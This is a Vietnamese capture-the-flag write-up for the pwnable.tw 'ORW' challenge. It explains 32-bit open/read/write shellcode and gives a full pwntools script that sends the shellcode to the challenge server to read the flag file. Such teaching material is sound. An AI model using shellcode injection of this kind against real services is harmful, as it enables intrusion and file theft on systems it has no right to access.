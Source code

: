 ### Pwnable.tw - ORW

# Preview 


![image](https://user-images.githubusercontent.com/90976397/176607610-e7504449-83a8-4102-a551-27399b28e04f.png)

Đây là câu thứ 2 trên Pwnable.tw và cũng là câu thứ 2 mà mình viết trong series này. 

Đây là một câu khá cơ bản trong mảng pwnable, chỉ đòi hỏi về kỹ năng viết assembly code.

Ở bài trước mình đã nói, assembly code rất là quan trọng trong mảng này, chừng nào còn đụng đến binary là còn đụng đến assembly code :D, vì thế nên hãy học assembly code một cách nghiêm túc.

![image](https://user-images.githubusercontent.com/90976397/176624348-f5b82f50-f67c-4826-ac89-cabfa564642a.png)

Tải file về rồi kiểm tra xem loại file và những cơ chế bảo mật nào được enable.

![image](https://user-images.githubusercontent.com/90976397/176624755-231c9ac4-9669-4340-b294-183c3231f7f9.png)

Một file ELF 32-bit LSB executable và không bị stripped

![image](https://user-images.githubusercontent.com/90976397/176625135-678c3bb1-7f60-4ef4-97ad-6bd6039db2a5.png)

Dường như chỉ có mỗi canary là được bật, ở bài trước mình đã nói sơ sơ về cơ chế Non-Executable, ở bài này NX disable thì hiển nhiên việc chúng ta sẽ làm đó là cần phải viết shellcode rồi :) viết sao thì ở dưới mình sẽ nói rõ.  

![EXfRo89XYAA-J5v](https://user-images.githubusercontent.com/90976397/176627953-76c18257-2360-4301-89d5-a404eab127a7.jpg)

# Analyze 

Mở IDA/Ghidra để xem thử bên trong nó có gì 

Btw, một lần nữa, mình khuyến khích các bạn nên đọc assembly code thay vì đọc pseudocode nhé, giúp ích nhiều lắm đấy 

![image](https://user-images.githubusercontent.com/90976397/176628953-4e10f5d3-b12d-4767-9a92-5f5c1751eb0e.png)

Dường như trong hàm main không có gì đặc biệt, chỉ là in ra dòng chữ "Give me your shell code: " rồi cho chúng ta nhập input vào.

Ở bài này thực sự không có gì nhiều để nói, nhưng mình sẽ cố gắng giải thích chi tiết để cho bạn hiểu rõ hơn về dạng bài viết assembly code nhé :).


# Exploit 

![image](https://user-images.githubusercontent.com/90976397/176630907-17df1123-de8d-4280-bce0-5b2a5634bb85.png)

Như description của bài này thì chúng ta có thể thấy nó đã chỉ cách làm bài này cho mình luôn rồi 

![image](https://user-images.githubusercontent.com/90976397/176631232-51a481c2-1239-43cf-916e-8933a5e29381.png)

Chỉ cần mở, đọc, in ra flag :) easy phải không ?

![75720175](https://user-images.githubusercontent.com/90976397/176632083-c218dd14-ac59-493c-9a7c-b8d03cb661e1.jpg)


Đầu tiên là push flag vào stack

Flag nằm ở ///home/orw/flag

Vì đây là cấu trúc 32-bit thế nên là phải đổi chuỗi "///home/orw/flag" sang hex và vì 32-bit nên chỉ push 4 byte một, ngoài ra đọc theo little-endian
"///home/orw/flag" đổi sang "galf/wro/emoh///"(vì đọc theo dạng byte little-endian) đổi sang mã hex là "67616c66 2f77726f 2f656d6f 682f2f2f"
```
shellcode = asm("push 0x0")
shellcode += asm("push 0x67616c66") #flag
shellcode += asm("push 0x2f77726f") #orw/
shellcode += asm("push 0x2f656d6f") #ome/
shellcode += asm("push 0x682f2f2f") #///h
```
Bây giờ cứ theo mô tả cả đề và từng bước đề đã nói mà làm thôi

Open
```
shellcode += asm("mov ebx, esp") #gán esp vào ebx, ebx- * file : esp
shellcode += asm("xor eax, eax") #khởi tạo eax
shellcode += asm("xor edx,edx") #edx mode = 0, read only
shellcode += asm("xor ecx, ecx") #ecx-flag: 0
shellcode += asm("mov eax, 0x05") #eax mode = 5, open
shellcode += asm("int 0x80") #syscall, syscall mình đã giải thích ở bài trước
```
Read
```
shellcode += asm("mov eax, 0x03") #eax mode = 3, read(3)
shellcode += asm("mov ebx,eax") #ebx-fd = eax, có nghĩa là handle->/home/orw/flag (3)
shellcode += asm("mov ecx,esp") #ecx-* buf: esp
shellcode += asm("mov edx, 0x40") #edx-size: 0x40
shellcode += asm("int 0x80") #syscall
```
Write

```
shellcode += asm("mov eax, 0x04") #eax mode = 4, write(4)
shellcode += asm("mov ebx, 0x01") #ebx-fd: stdout(1)
shellcode += asm("int 0x80") #syscall
```
Và cuối cùng chỉ cần execute cái shell này và chúng ta đã có được flag

![image](https://user-images.githubusercontent.com/90976397/176654117-d45db29d-e594-410e-a2e3-41e2332d700a.png)

full script: 
```
from pwn import * 

r = remote("chall.pwnable.tw",10001)
shellcode = asm("push 0x0")
shellcode += asm("push 0x67616c66") #flag
shellcode += asm("push 0x2f77726f") #orw/
shellcode += asm("push 0x2f656d6f") #ome/
shellcode += asm("push 0x682f2f2f") #///h

shellcode += asm("mov ebx, esp") #gán esp vào ebx, ebx- * file : esp
shellcode += asm("xor eax, eax") #khởi tạo eax
shellcode += asm("xor edx,edx") #edx mode = 0, read only
shellcode += asm("xor ecx, ecx") #ecx-flag: 0
shellcode += asm("mov eax, 0x05") #eax mode = 5, open
shellcode += asm("int 0x80") #syscall, syscall mình đã giải thích ở bài trước 

shellcode += asm("mov eax, 0x03") #eax mode = 3, read(3)
shellcode += asm("mov ebx,eax") #ebx-fd = eax, có nghĩa là handle->/home/orw/flag (3)
shellcode += asm("mov ecx,esp") #ecx-* buf: esp
shellcode += asm("mov edx, 0x40") #edx-size: 0x40
shellcode += asm("int 0x80") #syscall

shellcode += asm("mov eax, 0x04") #eax mode = 4, write(4)
shellcode += asm("mov ebx, 0x01") #ebx-fd: stdout(1)
shellcode += asm("int 0x80") #syscall
print(shellcode)
r.sendline(shellcode)

r.interactive()
```

Thực chất thư viện pwntools rất là mạnh, nó cung cấp cho chúng ta rất là nhiều công cụ để giải một câu pwn. Ở câu này chúng ta có thể sử dụng module pwntools như sau: 

```
shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
```
Chỉ cần 4 dòng, ngắn hơn rất nhiều so với cái ở trên. Nhưng cái gì cũng có cái giá của nó, trước khi bạn sử dụng những công cụ có sẵn như này thì bạn phải thuần thục ngôn ngữ assembly đã, không nên dựa dẫm quá nhiều vào những cái có sẵn. 

Peace~





